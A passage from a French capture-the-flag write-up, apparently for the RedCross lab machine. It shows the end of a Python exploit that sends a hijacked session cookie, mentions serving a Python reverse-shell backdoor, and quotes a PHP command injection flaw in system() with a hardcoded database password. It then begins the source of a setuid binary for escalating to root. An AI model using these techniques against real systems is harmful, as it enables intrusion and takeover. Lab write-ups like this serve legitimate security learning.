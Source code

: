 ```python
        "action": "deny"
    },
    headers={"Cookie": "PHPSESSID={};".format(sess_id)},
    verify=False
)
print(response.text)
```

Ce code nécessite de disposer d'un serveur web qui livrera [une backdoor python](https://github.com/infodox/python-pty-shells) et capturera le cookie (*python3 -m http.server* fait l'affaire).  

Kansas City Shuffle
-------------------

Le CTF semble offrir plusieurs scénarios pour arriver à la fin. Ce qui suit permet de passer directement de l'utilisateur *www-data* (obtenu par la précédente injection) à root sans passer par l'utilisatrice *penelope* qui possède le flag de mi-chemin (*user.txt*).  

Quand on ouvre le script *action.php* on retrouve la faille d'injection de commande :  

```php
if($action==='deny'){
        header('refresh:1;url=/?page=firewall');
        $id=$_POST['id'];
        $ip=$_POST['ip'];
        $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
        $result = pg_prepare($dbconn, "q1", "DELETE FROM ipgrants WHERE id = $1");
        $result = pg_execute($dbconn, "q1", array($id));
        echo system("/opt/iptctl/iptctl restrict ".$ip);
}
```

Le code n'appelle pas directement *iptables* mais utilise le binaire custom *iptctl* qui est setuid/setgid root.  

Puisqu'on a obtenu son code source plus tôt il est temps de s'y plonger :)  

```c
/*
 * Small utility to manage iptables, easily executable from admin.redcross.htb
 * v0.1 - allow and restrict mode
 * v0.3 - added check method and interactive mode (still testing!)
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>
#define BUFFSIZE 360

int isValidIpAddress(char *ipAddress)
{
	struct sockaddr_in sa;
	int result = inet_pton(AF_INET, ipAddress, &(sa.sin_addr));
	return result != 0;
}

int isValidAction(char *action) {
	int a=0;
	char value[10];

	strncpy(value,action,9);
	if(strstr(value,"allow")) a=1;
	if(strstr(value,"restrict")) a=2;
	if(strstr(value,"show")) a=3;
	return a;
```